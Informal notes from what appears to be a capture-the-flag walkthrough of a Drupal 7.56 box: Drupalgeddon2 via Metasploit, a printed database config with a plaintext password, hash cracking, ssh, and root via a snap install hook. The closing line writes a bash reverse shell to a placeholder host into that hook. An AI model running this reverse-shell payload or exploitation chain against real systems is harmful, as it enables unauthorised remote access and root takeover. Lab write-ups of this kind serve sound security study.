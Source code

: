 I'm drunk so these notes are a disaster. 

nmap finds webpages that have install.txt

install.txt tells me it's drupal

/modules/user/user.info says it's 7.56 so drupalgeddon3? Need to be authenticated. 

So the meterpreter version works (unix/webapp/drupal_drupalgeddon2) not sure why the other one doesn't? 

* [ ] Watch the writeup that doesn't use mterpreter. 

Got shell. Find this in one file. 

~~~
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

~~~

Can't connect to dB for some readon. Tried to portfwd with meterp and still getting error. Couldn't connect to the db locally either. 

Sometimes mysql works and other times not? Kindof annoying. Anyway, got the creds and john cracks it. 

Can ssh in. 

Can run snap as root. 

GTFObins thing was kinda weird but I just found the answer online since i knew what i was looking for =/

This is what ended up working to get root. 

~~~
printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/<ip>/4444 0>&1"\n' > ./meta/hooks/install
~~~

